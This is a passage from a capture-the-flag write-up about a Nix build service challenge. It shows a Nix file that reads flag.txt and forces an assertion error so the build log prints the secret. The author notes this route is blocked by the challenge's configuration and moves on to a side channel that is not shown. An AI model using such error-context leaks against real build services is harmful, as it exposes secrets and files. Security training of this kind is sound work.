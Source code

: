 Another approach could be to instead take advantage of the web app by leaking
the flag directly or indirectly through the build log.
Unfortunately, the log only contains the last line, which makes this a lot more
difficult.
To leak the flag directly, we would need to throw an evaluation error in the line
above the flag, since Nix gives some context around the error:

```
error: assertion '((lib).isDerivation user-input)' failed
at /.../nix-build-aas/chall/default.nix:11:14:
    10|   # TODO: Make sure the user does not reference the flag
    11|   user-drv = assert lib.isDerivation user-input; pkgs.hello // user-input;
      |              ^
    12| in
```

This could, in theory, be achieved by writing a Nix file and then importing it, like so:

```nix
let
  nixpkgs = builtins.fetchTarball {
    url = "https://github.com/NixOS/nixpkgs/archive/8532db2a88ba56de9188af72134d93e39fd825f3.tar.gz";
    sha256 = "sha256-tttEXgKimgbtPvxFl+Avos4P4lssIqxHhxpLbbvNekk=";
  };
  pkgs = import nixpkgs {};

  nix-file = pkgs.writeText "test.nix" ''
    {
      a = assert false;
      # ${builtins.readFile ./flag.txt}
      "a";
    }
  '';
in {
  foo = (import nix-file).a;
}
```

Which outputs the flag in the last line when evaluated:

```hl_lines=6
error: assertion 'false' failed
at /nix/store/yl3309dvhllvff04kr6r00fbxv49xw7s-test.nix:2:7:
     1| {
     2|   a = assert false;
      |       ^
     3|   # kalmar{this-is-the-right-one}
```

However, in practice, this is not possible in the challenge because
`allow-import-from-derivation` is set to false in `nix.conf`, as previously mentioned.

Fortunately, there is still the possibility of changing the build output depending on
the flag, even if the flag is not directly visible.
This is what I ended up doing for my solution, as you will see briefly.
